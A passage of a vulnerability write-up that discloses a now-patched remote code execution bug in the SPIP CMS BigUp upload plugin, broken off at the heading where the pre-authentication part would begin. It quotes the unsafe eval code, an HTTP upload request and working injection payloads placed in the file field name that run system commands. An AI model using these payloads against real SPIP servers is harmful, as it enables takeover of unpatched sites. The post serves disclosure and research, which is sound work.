

> Hello dear reader,\
> This article is the continuation of my Spip research, with a twist!\
> One Spip Unauth RCE Challenge player ([@Vozec1](https://x.com/Vozec1)) came to me with an extra question after solving my initial challenge: "I think I found another similar bug, are you already aware of this issue?"\
> And I was not (code changes fast)! We therefore worked together to make the most ouf ot it, here's our co-written story! 💌

## Some Context

Hello, [@Vozec1](https://x.com/Vozec1) here! 👋

A month ago, [TheLaluka](https://x.com/TheLaluka/) [suggested](https://x.com/TheLaluka/status/1821821709499961817) finding his preauth RCE in SPIP as a challenge.
The challenge was very nice and I had nothing to do, so I decided to take a look at this CMS.


He gave us a hint to narrow down the attack surface, as the project is substantial.
So, with [Worty](https://x.com/_Worty), we found the vulnerability and [won the challenge](https://x.com/TheLaluka/status/1824357306433253480)!


*Above is a screenshot from the [_barbhack_](https://x.com/_barbhack_) rump we gave to release the yet-another-spip-rce-challenge: the one we're disclosing today*


He sent us 2 bottles of arranged rums to congratulate us *(what a prince!)* and everything could have ended there, but I enjoyed the challenge and it gave me a vague idea of how Spip works. I still had several subtleties in mind and still had some free time, so I thought I'd keep on looking for vulnerabilities.


So I'm going to present what will lead to a new `RCE preauth on versions <= 4.3.1` of this CMS:

- [blog.spip.net/Mise-a-jour-critique-de-securite-sortie-de-SPIP-4-3-2-SPIP-4-2-16-SPIP-4-1-18.html](https://blog.spip.net/Mise-a-jour-critique-de-securite-sortie-de-SPIP-4-3-2-SPIP-4-2-16-SPIP-4-1-18.html)
- [www.cert.ssi.gouv.fr/avis/CERTFR-2024-AVI-0702](https://www.cert.ssi.gouv.fr/avis/CERTFR-2024-AVI-0702)

I found the CVE in an authenticated way, then reached out to Laluka to verify it wasn't already known. We then worked together to make it work without authentication, greatly increasing the impact!

In the same way as his original post, we proposed a [new challenge during the Barbhack 2024](https://x.com/TheLaluka/status/1829929188381344007) event to find the vulnerability.

> This time, the winners were [GuilhemRioux](https://x.com/GuilhemRioux), and the second solve from [Chocapikk_](https://x.com/Chocapikk_)! The third solve wanted to stay anon, therefore respecting their choice! 😉

## Setup

The setup phase is quick, requiring only the CMS zip, an updated php and a few extensions such as **php-xml**, **php-zip** or **php-sqlite3**.\
**libsodium** is also used for cryptography, and can be installed via the php extension manager [pecl](https://pecl.php.net/).

For a quick installation, **sqlite** is very pleasant, as it allows a clean installation without having to deploy and rely on an external database.

Here are the commands used:

```bash
mkdir spip3.4.1
cd spip3.4.1
wget https://files.spip.net/spip/archives/spip-v4.3.1.zip
unzip spip-v4.3.1.zip
apt update
pecl install -f libsodium
apt install -y php-xml php-zip php-sqlite3
php -S 0.0.0.0:8000
```

The installation page can be found here: [http://localhost:8000/spip.php?exec=install](http://localhost:8000/spip.php?exec=install)


## Code review

I had two ways of looking for vulnerable code in the php codebase.
The first was to trace my inputs on the various pages and see what code they triggered.
The second was to send payloads everywhere and see what resulted.

Both approaches are functional, especially on spip, which is notorious for evaluating just about anything in different places, "for some reasons"!

I decided to be clever and look for vulnerable sinks in the code.
The RCE for Laluka's 1st challenge was in the code of the **“PortePlume”** plugin, used to enhance Spip's native textbox. This plugin had already been audited, and although there was still a very promising RCE sink, I'd gone over this plugin and wanted to discover some new code.
So I naturally decided to audit other plugins installed by default.

I started looking at the BigUp plugin code. It's a plugin used this time for file uploading. It's going to take care of saving the various uploaded images to disk, renaming them appropriately, handling big chunked uploads, and more.

The plugin is quite substantial:

```bash
.
├── action
│   └── bigup.php
├── balise
│   └── saisie_fichier.php
├── bigup_administrations.php
├── bigup_fonctions.php
├── bigup_pipelines.php
├── CHANGELOG.md
├── composer.json
├── css
│   [.. SNIPPED ..]
├── formulaires
│   ├── configurer_bigup.html
│   ├── tester_bigup_extended.html
│   ├── tester_bigup_extended.php
│   ├── tester_bigup.html
│   └── tester_bigup.php
├── genie
│   └── bigup_nettoyer_repertoire_upload.php
├── inc
│   ├── Bigup
│   │   ├── CacheFichiers.php
│   │   ├── Cache.php
│   │   ├── CacheRepertoire.php
│   │   ├── Files.php
│   │   ├── Flow.php
│   │   ├── Formulaire.php
│   │   ├── GestionRepertoires.php
│   │   ├── Identifier.php
│   │   ├── LogTrait.php
│   │   └── Repondre.php
│   └── Bigup.php
├── javascript
│   [.. SNIPPED ..]
├── lang
│   ├── bigup_ar.php
│   ├── bigup_de.php
│   ├── bigup_en.php
│   ├── bigup_fr.php
│   ├── bigup_pt_br.php
│   ├── bigup.xml
│   ├── paquet-bigup_ar.php
│   ├── paquet-bigup_de.php
│   ├── paquet-bigup_en.php
│   ├── paquet-bigup_fr.php
│   ├── paquet-bigup_pt_br.php
│   └── paquet-bigup.xml
├── lib
│   [.. SNIPPED ..]
├── paquet.xml
├── phpcs.xml.dist
├── phpstan-baseline.neon
├── phpstan.neon.dist
├── prive
│   [.. SNIPPED ..]
├── README.md
├── saisies
│   [.. SNIPPED ..]
└── saisies-vues
    [.. SNIPPED ..]
```

Instead of spending time reading all the code, I started by researching dangerous behavior via [RegEx](https://fr.wikipedia.org/wiki/Expression_r%C3%A9guli%C3%A8re).

After several searches for dangerous functions: `eval`, `file_get_contents`, `system`... as well as `arbitrary object instantiation` such as `$a($b) )` I finally found a dubiously coded function! ☺️

## The vulnerable function

In the `plugins-dist/bigup/inc/Bigup/Files.php` file, on line *230* the *extraire_fichiers_valides* function contains the following code:

```php
public static function extraire_fichiers_valides() {
    $liste = [];
    if (!count($_FILES)) {
        return $liste;
    }

    $infos = []; // name, pathname, error …
    foreach ($_FILES as $racine => $descriptions) {
        $infos = array_keys($descriptions);
        break;
    }

    foreach ($_FILES as $racine => $descriptions) {
        $error = $descriptions['error'];

        // cas le plus simple : name="champ", on s'embête pas
        if (!is_array($error)) {
            if ($error == 0) {
                $liste[$racine] = [$descriptions];
                unset($_FILES[$racine]);
            }
            continue;
        }

        // cas plus compliqués :
        // name="champ[tons][][sous][la][pluie][]"
        // $_FILES[champ][error][tons][0][sous][la][pluie][0]
        else {
            $chemins = Files::extraire_sous_chemins_fichiers($error);

            foreach ($chemins['phps'] as $k => $chemin) {
                $var = '$_FILES[\'' . $racine . '\'][\'error\']' . $chemin;
                eval("\$error = $var;");

                if ($error == 0) {
                    $description = [];
                    foreach ($infos as $info) {
                        $var = '$_FILES[\'' . $racine . '\'][\'' . $info . '\']' . $chemin;
                        eval("\$x = $var; unset($var);");
                        $description[$info] = $x;
                    }

                    $complet = $racine . $chemins['names'][$k];
                    if (empty($liste[$complet])) {
                        $liste[$complet] = [];
                    }
                    $liste[$complet][] = $description;
                }
            }
        }
    }

    return $liste;
}
```

> Do you smeel it? That smelly RCE smeel? 👀

Indeed, a lot of eval are carried out!

Here's the comments above the function read:

```php
/**
 * Extrait et enlève de `$_FILES` les fichiers reçus sans erreur
 * et crée un tableau avec pour clé le champ d'origine du fichier
 *
 * @return array Tableau (champ => [description])
 */
```

The function seems to handle uploaded files, I didn't have the courage to setup XDebug so a simple `echo` in the Docker logs will suffice for debugging.

It's apparently used to pass from a path name to an array path. Why eval then?

So I added the following code at the start of the function, and displayed `$_FILES` to see what will pass through during uploads:

```php
## Debug like a boss
error_log("######################################");
error_log("Call to extraire_fichiers_valides");
error_log(json_encode($_FILES));
error_log("######################################");
```

Plus we read this comment:

```
// cas plus compliqués :
// name="champ[tons][][sous][la][pluie][]"
// $_FILES[champ][error][tons][0][sous][la][pluie][0]
```

To trigger the various EVALs, we need to send a file with the parameter `name` of the form *champ[tons][][sous][la][pluie][]*.
So you can navigate from the logged-in area to `/ecrire` and upload an image. Here I'm using the form to send a profile photo

I also add:
```php
error_log($racine);
error_log($chemin);
$var = '$_FILES[\'' . $racine . '\'][\'error\']' . $chemin;
error_log($var);
```


Uploading an image sends 3 requests, 2 of which trigger the `extract_valid_files` function!

These two requests don't contain the uploaded image, but they do reach our vulnerable code! 😁

```bash
POST /ecrire/?exec=auteur&id_auteur=1 HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------35974249246826023222844215477
Content-Length: 1584
Origin: http://localhost:8000
Connection: keep-alive
Referer: http://localhost:8000/ecrire/?exec=auteur&id_auteur=1
Cookie: spip_session=1_d11b8a893cc1f545e2dee6e3e5ceb3ec; spip_admin=%40root%40root.root; spip_accepte_ajax=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: blue

-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="var_ajax"

form
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="exec"

auteur
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="id_auteur"

1
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="formulaire_action"

editer_logo
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="formulaire_action_args"

o7aLD55YnoVFatZHAGqAQwWZcL0Z6FaCfDb4yh9BlxHzEDHJjuuhj1zH/aQrCvgA3lRry1gAXIHgxJclaNiXP7J3xnoB+JE/twMTVpcmUQOczifhWzHFchZPDMxK0Sia4few939TklVQhnGYmdnbni4cOszvyb3ueOHYnGsiBda5GtVbmHwU3g4eAS/CgDM4SbQj5xvy0CLNKxbCbNL75db6W+NetjxgKlHBdLlpP8eiRnzNSd11MGmPqGezNBV+1CH5T/OUZkOfy2uKfo/WdwFGduql2JNpSUWmXLQY9RjR1ZwQredgR9E=
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="formulaire_action_sign"

61e4242ff0083987cd3f876d5daa0a9ece8d7c772f4bb1f248ce3f4cb4bc9b47
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="bigup_retrouver_fichiers"

1
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="formulaire_action_verifier_json"

true
-----------------------------35974249246826023222844215477
Content-Disposition: form-data; name="bigup_reinjecter_uniquement"

@28ef70ab@
-----------------------------35974249246826023222844215477--
```


You can immediately see that `$_FILES` is empty:

```php
[Mon Sep  2 20:46:49 2024] ######################################
[Mon Sep  2 20:46:49 2024] Call to extraire_fichiers_valides
[Mon Sep  2 20:46:49 2024] []
[Mon Sep  2 20:46:49 2024] ######################################
```

So we can ask our best friend to add a file to our POST request:



And... IT'S A *small* WIN! We control the file passed to the function:


We can therefore adapt the `name` parameter with `[]`:


Here is an extract from logs:

```bash
[Mon Sep  2 21:41:54 2024] ######################################
[Mon Sep  2 21:41:54 2024] Call to extraire_fichiers_valides
[Mon Sep  2 21:41:54 2024] {"HELLO":{"name":{"WORLD":"example.txt"},"full_path":{"WORLD":"example.txt"},"type":{"WORLD":"text\/plain"},"tmp_name":{"WORLD":"\/tmp\/phpB6Hmiq"},"error":{"WORLD":0},"size":{"WORLD":38}}}
[Mon Sep  2 21:41:54 2024] ######################################
[Mon Sep  2 21:41:54 2024] HELLO
[Mon Sep  2 21:41:54 2024] ['WORLD']
[Mon Sep  2 21:41:54 2024] $_FILES['HELLO']['error']['WORLD']
```

The last 3 lines correspond to `$racine` `$chemin` and `$var`.

`$var` corresponds to the string that will be evaluated next, passing *"HELLO[WORLD]"*, here's the string formed:

```php
$_FILES['HELLO']['error']['WORLD']
```

The complete code evaluated will therefore be:

```php
$error = $_FILES['HELLO']['error']['WORLD'];
```

## Remote Code Execution

> What happens if I send a single quote? 🤔

Response: **The server returns a 500 error!**


From the docker logs, we can read:


Here we see that the `'` is not filtered, so the context is broken and the call to *eval* returns an error.

Finally, we can add a real payload to control the contents of the string between the square brackets.

The payload payload ``HELLO[AB'.strval(5+5).'CD]`` lead to this log line:
```bash
Undefined array key "AB10CD" in ... plugins-dist/bigup/inc/Bigup/Files.php(276) : eval()'d code on line 1
```

The rce is now trivial, with the following payload:

```php
name="HELLO[AB'.system('id').die().'CD]"
```


My first reaction was like


But in the end he confirmed that he didn't have it in his notes!

If you're curious, this was related to my [teasing tweet](https://x.com/Vozec1/status/1822647021733281895) from a few weeks ago, hashing the proof that I had this exploit at this time, without leaking sensitive information (kindly suggested to do so by Laluka to keep tracks & proofs).

```php
[~/Desktop]$ echo -ne "name=\"RCE['.system('id').die().']\";" | md5sum
9fd0828be2a9d90e89e226f1fcd6d5d9  -
```

## Additional note:
The vulnerability can also be triggered in the first part of the name parameter:
```php
name="RCE'-system('id')-'[ABCD]"
```

The dot is filtered, but you can use `sprintf` to call the `die` function after the `system` to avoid an error in logs:

```php
name="RCE'-sprintf(system('id'),die())-'[ABCD]"
```


Hello, Laluka here, I'll take the next part that makes this lovely post-auth RCE pre-auth! 😉

## Making the RCE Pre-Auth

